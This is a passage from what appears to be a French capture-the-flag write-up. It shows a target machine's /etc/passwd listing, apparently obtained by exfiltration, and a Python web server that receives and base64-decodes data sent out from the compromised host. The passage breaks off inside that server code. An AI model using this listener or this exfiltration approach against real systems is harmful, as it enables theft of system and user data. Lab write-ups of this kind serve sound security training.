 ```
root:x:0:0:root:/root:/bin/bash
--- snip ---
le:x:1000:1000:Le Chiffre,,,:/home/le:/bin/bash
mysql:x:113:120:MySQL Server,,,:/nonexistent:/bin/false
valenka:x:1001:1001:,,,:/home/valenka:/bin/bash
postfix:x:114:121::/var/spool/postfix:/bin/false
ftp:x:115:124:ftp daemon,,,:/srv/ftp:/bin/false
ftpUserULTRA:x:1002:1002::/var/www/html/ultra-access-view:/bin/bash
```

J'ai écrit un serveur web en Python qui sera chargé de décoder le contenu exfiltré envoyé par le serveur en base64 :

```python
from base64 import b64decode                                                                                           
from http.server import SimpleHTTPRequestHandler                                                                       
import socketserver                                                                                                    
                                                                                                                       
class S(SimpleHTTPRequestHandler):                                                                                     
    def _set_headers(self):                                                                                            
        self.send_response(200)                                                                                        
        self.send_header('Content-type', 'text/html')                                                                  
        self.end_headers()                                                                                             
                                                                                                                       
    def do_GET(self):                                                                                                  
        if self.path.startswith("/xoxo/"):                                                                             
            data = self.path[6:]                                                                                       
            print("="*50)                                                                                              
            print(b64decode(data).decode(errors="replace"))                                                            
            print("="*50)                                                                                              
            self.send_response(200)                                                                                    
            self.end_headers()                                                                                         
            self.wfile.write(b"")                                                                                      
        else:                                                                                                          
            super().do_GET()                                                                                           
                                                                                                                       
                                                                                                                       
PORT = 80                                                                                                              
                                                                                                                       
Handler = S                                                                                                            
with socketserver.TCPServer(("", PORT), Handler) as httpd:                                                             
```